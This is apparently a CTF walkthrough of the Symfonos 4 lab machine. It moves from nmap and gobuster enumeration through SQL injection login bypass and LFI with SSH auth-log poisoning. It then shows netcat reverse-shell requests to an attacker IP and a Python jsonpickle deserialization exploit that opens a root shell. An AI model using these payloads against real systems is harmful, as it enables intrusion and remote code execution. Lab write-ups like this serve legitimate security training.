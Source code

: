SYMFONOS 4

## Methodology and summary
## Table of Contents
1. [Information Gathering]()
	1.1 [Discovery host]()
	1.2 [Service Enum]()
	1.3 [Web]()
		1.3,1 [Gobuster enum web content]()
		1.3.2 [Downloading and reading .log files]()

2. [Exploitation]()
	2.1 [Bypass login sqli]()
	2.2 [LFI (local file inclusion)  - using bash to generate payloads]()
		2.2.1 [Reverse shell]()

3. [Post exploitation]()
	3.1 [Remote forwarding with ssh]()
	3.2 [Web 8080]()
		3.2.1 [Gobuster enum web content]()
		3.2.2 [python Pickle without exploit to get root]()
		3.2.3 [Python Pickle with coding exploit to get root]()

## 1 Information Gathering
## 1.1 Discovery host
`nmap -Pn -F 192.168.196.1/24 -oN host_discovery.txt`
![840e1e97c9f94578c757d7fd3c689c58.png](/_resources/349aeda966314e6f8d09bcfcbd4a1774.png)
Or you can use netdiscover.

## 1.2 Service enum
`nmap -sV -sC -p- 192.168.196.125 -oN full_service_enum-sC.txt`
![76394ae6997be19f3c4bdee0cfaa2281.png](/_resources/c691da3575884fcda97e905576d39a7e.png)

`nmap -sV -sU -F 192.168.196.125 -oN udp-sC-sV.txt`

## 1.3 Web
### 1.3.1 Gobuster enum web content
`gobuster dir -u http://192.168.196.125 -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt -f -x php,bkp,bak,txt,html,aspx -o gobuster/info-403.txt`
![0975e9ea8b8186843034eaa7daa54ebf.png](/_resources/08373315ed444d79bf152bbab584aea8.png)

`gobuster dir -u http://192.168.196.125 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -f -x php,bkp,bak,txt,html,aspx -o info-403.1.txt`
![c4583ba1c6c787bdd818294cb239fe8c.png](/_resources/9f42f9f33c034491b2b19c7fe9ddd362.png)

![1d8d6b711590211a52e3aa5a2e2ceb03.png](/_resources/24571ff2fe9540fb818164cacd9c1835.png)

### 1.3.2 Downloading and reading .log files
![a1c099d558fcf0a1d61e3f9a286db9df.png](/_resources/923829f107e945e6b7a41707a66f6ac7.png)
Apparently the file reader reads these .log files and exclude the extension.


# 2 Exploitation
## 2.1 Bypass login sqli
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection/Intruder <- only sqli login bypass
![f05f53f61c3c9f278839e192155f60d3.png](/_resources/e0c248c955274101b329a896edecc53c.png)

![dee386e1368f678594d530ea7b687f8f.png](/_resources/21ce6dcbe9d944b8b94b6071876fb837.png)

## 2.3 LFI (local file inclusion) - using bash to generate payloads
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion/Intruders
First it needs to grep all .log files and exclude the extension.
We also need add some "../" multiplied by a looping for cases where there is no path traversal:

![1cd967f30e848870cd71ccee54ad1dd4.png](/_resources/785e5a8f11f04b97b2ab41efbbb11c09.png)

```
#!/bin/bash

a=0
rm wl-lfi-with-new-dotdot.txt

while [ $a -lt 10 ]; do 
	string=$(python2.7 -c "print $a * '../'")
	for i in $(cat /root/shared/wl-lfi.txt | grep "\.log" | sed 's/\.log//g' | grep -v "\.\." | sed 's/^\///g') ; do
		echo "$string$i" >> wl-lfi-with-new-dotdot.txt
	done
	a=$(( $a + 1 ))
done
cat wl-lfi-with-new-dotdot.txt | sort | uniq > wl-lfi-with-new-dotdot-new.txt
```

![32891abc8f6f2a29e90957c4a48df109.png](/_resources/011ff6b8d8414ce89ab3aefc33f7d4e3.png)

### 2.3.1 Reverse shell
https://vk9-sec.com/testing-lfi-to-rce-using-auth-log-ssh-poisoning-with-mutillidae-burpsuite/
https://github.com/bayufedra/Tiny-PHP-Webshell
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

```
ssh '<?=`$_GET[0]`?>@192.168.196.127'
```
![bac8f31f1dbeaf07360ad7e65eb809fd.png](/_resources/2a5ac06591814144bc918c386f6e46a0.png)

![551934b56670ffd80ea92ef3d7895822.png](/_resources/d9ca224d89814bf39e9e85fdba68f82f.png)
```
GET /sea.php?file=/../var/log/auth&0=nc+192.168.196.121+4446+-e+/bin/bash
```
![41c70d61d8a0b08a44cbe0cb4cd68fee.png](/_resources/fe456d74e92b491db68c287f7dbedab2.png)
Since we have nc or any other way on target, we can use it for get reverse shell:
![e905767d0ac3bad464d5a031d815d98e.png](/_resources/0e91b6820bd04a20900f2006aad65434.png)


# 3 Post-exploitation
https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh
We can upload LinEnum on the target with python3 and the lib http.server:
![4d63d0022347ed21c3ba7df24c2522c0.png](/_resources/47d04bb3e5c543a4aae1de06412edae3.png)
![820b558de83960b7ef1042b7af6591e5.png](/_resources/ab77bd1365544d76b1c000435b81d303.png)
`./LinEnum.sh -t > info.txt`

And download from target:
`nc -nlvp 4447 > info.txt`
`cat info.txt | nc 192.168.196.121 4447`

![ea043ac33ffccefe0be1ce5158627f79.png](/_resources/212f5442c5874501ada84e00a16a47f0.png)

## 3.1 Remote forwarding with ssh
https://www.ssh.com/academy/ssh/tunneling/example
We need to liberate the internal port 8080 on the kali for examine it:
`ssh -fN root@192.168.196.121 -R 8888:127.0.0.1:8080`

## 3.2 Web 8080
### 3.2.1 Gobuster enum web content
`gobuster dir -u "http://localhost:8888/" -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt -t 40 -x php,html,txt,bkp,bak,aspx -o info-list-1.0.txt`

![871d11e257ef55e125102ff953880218.png](/_resources/4bfaac7691be42f6a08e79d799f01959.png)

![df9bf8bf57207863f1663384960b0fec.png](/_resources/5a338a152d2b442590792a507f02c051.png)
We have a cookie with base64 encode.
Let's decode it:
![a2faa58b0d558074ef2d46ea76f628d9.png](/_resources/b8651e2ba33843d38c8ecee493831f13.png)

### 3.3.2 Python Pickle without exploit to get root
A quick search in google, reveal that the web application is using Python Pickle:
![34c46c4628137be5bc34b7590a2d1e39.png](/_resources/454c47d973674ee5a1c0fd8caca828c6.png)
This articles explain about exploit it:
https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/ 
https://www.synopsys.com/blogs/software-security/python-pickling/
https://blog.nelhage.com/2011/03/exploiting-pickle/
https://intoli.com/blog/dangerous-pickles/

You can use use burpsuit instead code an exploit:
![ce0615a224028acc4f853e5964d9aec9.png](/_resources/48add1eec8404568aa483028b4b3ffb2.png)
Needs encode to base64:
![1581ff27f0379884666328b034bca78e.png](/_resources/0fe79ecb71274e4b8eaa09a7e72de099.png)]

And rooted:
![9ff866356191b6a5f8b5598ea0661897.png](/_resources/df8406e80fa1459399853773280f05ac.png)

### 3.3.3 Python Pickle with coding exploit to get root
```
#!/usr/bin/env python3
# Exploit to vulnerable app in symfonos 4

import jsonpickle
import os
import socket
import base64
#import sys
import requests
#import subprocess

# Default target
target = 'localhost:8888'
command = 'nc 192.168.196.121 4447 -e /bin/bash'

# Class for exploitation
class Shell(object):
    def __reduce__(self):
        #return (subprocess.Popen, (('nc 192.168.196.121 4447 -e /bin/bash'),))
        return (os.system, (command,))

shell = jsonpickle.encode(Shell())
print (shell)
shell1 = (base64.b64encode(shell.encode()).decode('utf-8'))
print (shell)

cookies = {
    'username': shell1,
}
print (cookies)

headers = {
    'Host': target,
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Connection': 'close',
    'Upgrade-Insecure-Requests': '1',
    'Cache-Control': 'max-age=0',
}

response = requests.get('http://localhost:8888/whoami', headers=headers, cookies=cookies, verify=False)
print (response.content)

```

And rooted:
![7f985f49d2994f98f434e810c1788f65.png](/_resources/24c617101aa14ecfbedb88e5539534f3.png)
 
